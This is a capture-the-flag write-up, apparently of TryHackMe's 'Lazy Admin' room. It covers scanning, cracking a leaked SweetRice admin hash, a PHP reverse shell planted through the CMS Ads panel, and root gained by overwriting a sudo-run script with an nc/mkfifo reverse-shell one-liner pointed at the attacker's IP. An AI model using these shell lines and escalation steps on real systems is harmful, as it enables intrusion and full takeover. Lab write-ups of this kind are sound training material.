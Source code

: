 # Lazy Admin

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ffuf

```
                        [Status: 200, Size: 11321, Words: 3503, Lines: 376]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
content                 [Status: 301, Size: 314, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10
/content                [Status: 200, Size: 2199, Words: 109, Lines: 36]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]

.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
images                  [Status: 301, Size: 323, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2199, Words: 109, Lines: 36]
js                      [Status: 301, Size: 319, Words: 20, Lines: 10]
```

There is a `"content"` directory

```
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed

Powered by Basic-CMS.ORG SweetRice.

//down down bad practices...

These tips may be useful for you install SweetRice.

1,Open your website.

Default,when you installed SweetRice,your website's status is "close",and SweetRice will show "Site is building now , please come late.?" to visitors,if you ready to open your website,you can go to Setting -> General , uncheck the checkbox for "Site Close" and submit,your website's status will be "open".

When you upgrade website, this feature may be useful.You can input some words to the textarea for "Site Close Tip" to replace the word "Site is building now , please come late.?".

2,Protect your data.

SweetRice save all important file in the inc directory,there are two kinds of format ?:.txt (link.txt , htaccess.txt, lastest.txt) and .db (if track feature enabled).If you are using apache server,the file .htaccess which in inc directory will work for protect your data,if your server is nginx,you may see Security setting for Nginx.For other web server ,you may try it yourself.

3.Enable URL rewrite

Apache server supports .htaccess,when URL rewrite feature enabled ?,a .htaccess file will be saved to your web root directory.The file content is:

RewriteEngine On
RewriteBase "your web root"
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule . index.php [L]

Nginx server does not supports .htaccess file,you may add the URL rewrite config to the nginx.conf or your nginx config file.

example:

location / {
root /htdocs;
index index.html index.php;
if (!-e $request_filename){
		 rewrite ^/demo/.+$ /demo/index.php last;
}
}

4,Set permalinks

SweetRice supports custom permalink,you can go to Setting->Permaliks to set permalinks for Attachment,RssFeed,tag etc.

5,Custom SweetRice

SweetRice is very simple,but you can easy to build your custom website,Do not like default theme?you can use the example \_themes/wblog to build a new theme or download theme from SweetRice Themes?;

Need new feature?you can build a plugin and install it,some plugin at SweetRice Plugins? and you can submit your request to us.
```

Lets visit /content/inc then

latest version of basic-cms sweetrice is 1.5.1 (no great cve anyway)

And a backup of sql database is downloadable (lol that's it)

Just read it

```
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

so basically creds are

`Lazy Admin : 42f749ade7f9e195bf475f37a44cafcb`

Its a hash and its crackable

its md5 for `Password123`

I wonder if can ssh with that? nope we gotta find a login page....go fuzz content again

we get a `"as"` directory with a login page

Ok the credentials were actually

`manager : Password123`

Still doesnt work for ssh...we have to abuse that website

in Ads panel we can create custom ads...its php code that will be executed so I say Reverse shell it is!

when created you can actiate your shell by clicking on your named ad in `/content/inc/ads`

As they say in the movies...we are in!

the user home folder is named `itguy`

```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
cat mysql_login.txt
rice:randompass //hohoho..great
```

FLAG #1
`$ cat user.txt`
THM{lazy_flag_for_lazy_people}

Time to get real

## Privilege Escalation

```
sudo -l
Matching Defaults entries for www-data on THM-Chal:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So we can run that perl backup script in user folder...let's analyse its code

```
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

it runs `/etc/copy.sh`...so what is that?

```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

its already a reverse shell..we will just adapt it to point to us

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.226.203 4444 >/tmp/f' > /etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl
```

And we are done

```
# id

uid=0(root) gid=0(root) groups=0(root)

# cat root.txt

THM{super_flag_to_get_root_instantly}
```

Feeling lazy too now...that one room was enough for today!

